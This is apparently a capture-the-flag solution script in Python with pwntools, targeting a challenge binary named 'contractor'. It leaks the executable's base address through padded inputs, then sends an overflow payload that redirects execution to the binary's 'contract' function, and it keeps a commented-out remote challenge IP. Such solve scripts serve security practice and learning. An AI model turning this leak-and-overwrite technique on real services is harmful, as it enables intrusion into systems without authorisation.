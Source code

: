 exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./contractor_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

#p = remote('83.136.249.46',59334)
gdb.attach(p,gdbscript='''
            brva 0x000000000000175E
            brva 0x000000000000194E
            brva 0x00000000000001971



           ''')
input()
p.send(b'a'*16)

input()
p.send(b'a'*256)

input()
p.sendline(b'1')

input()
p.send(b'a'*16)
p.recvuntil(b'[Specialty]: ')
p.recv(16)
exe.address = u64(p.recv(6).ljust(8,b'\x00'),16) - 0x1b50
log.info(f'leak exe: {hex(exe.address)}')

p.sendline(b'4')
pl = b'a'*28 + p32(1) + b'\x1f' + p64(exe.sym.contract)
input()
p.sendlineafter(b'at: ', pl)

p.interactive()
```

